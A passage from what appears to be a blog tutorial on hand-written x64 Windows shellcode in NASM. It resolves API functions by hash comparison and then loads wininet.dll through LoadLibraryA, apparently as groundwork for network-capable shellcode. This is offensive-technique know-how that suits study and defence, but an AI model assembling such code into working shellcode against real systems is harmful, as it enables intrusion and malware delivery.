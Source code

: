 ```nasm
   je FunctionNameFound
   cmp eax, 0xA4A1011B
   je FunctionNameFound
   cmp eax, 0xE536B693
   je FunctionNameFound
   cmp eax, 0xE3DB70A7
   je FunctionNameFound
   cmp eax, 0xCEFC5AFD
   je FunctionNameFound
   cmp eax, 0xD7277164
   je FunctionNameFound
   
   jmp kernel32findfunction
   
continuation:

   ;********************************************************
   ; CONGRATS!  you found all the hashes, let's continue
   ;******************************************************** 

```

Phew!  that's a lot to take in am I right?  Well there's a lot more to it so hang on tight.  It doesn't get much easier lol.  Then again, that's what I love about this stuff!  The challenge is intoxicating, at least for me, and I thrive on a good challenge 😸  Ok spoiler alert.  I'm not going to be able to go into incredible detail on every aspect of the remaining code, though I will share it.  I like to keep these blog posts digestable in an easy to read fashion.  Not too wordy/lengthy, and my aim it to teach you while retaining your attention 😄  I'll show you how the code works up to this point, and briefly explain the rest.  Then we need to move on to the syscalls!

<iframe width="1080" height="720" 
        src="https://www.youtube.com/embed/VDKQnw4YLn8" 
        title="YouTube video player" 
        frameborder="0" 
        allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
        allowfullscreen>
</iframe>

As you can see, we managed to generate the API function names we were looking for using our hashes!

Next up, we basically locate the functions we need and call them

> **Let's locate GetProcAddress and Wininet**

```nasm

;****************************************************
; basically, all we need to do is locate our value's place on the stack
; for instance, LoadLibraryA is 80 bytes from where our stack pointer is 
; so we add rsp + 80 and we store that value in rax
; then call it!  
; rinse and repeat.  That's really all there is to it
; I used x64dbg to determine where they were on the stack by trial and error
;****************************************************

;locate wininet.dll
    mov rax, 0x9074656E696E6977     ; Add "wininet" string to RAX.
    shl rax, 0x8
    shr rax, 0x8
    push rax                        ; Push RAX to stack
    mov rcx, rsp                    ; Move a pointer to User32.dll into RCX.
    sub rsp, 0x28                   ; stack alignment
    mov rax, [rsp + 10*8]
    call rax                        ; Call LoadLibraryA("wininet.dll")
    add rsp, 0x30                   ; stack alignment
    mov rdi, rax                    ; holds wininet.dll address
```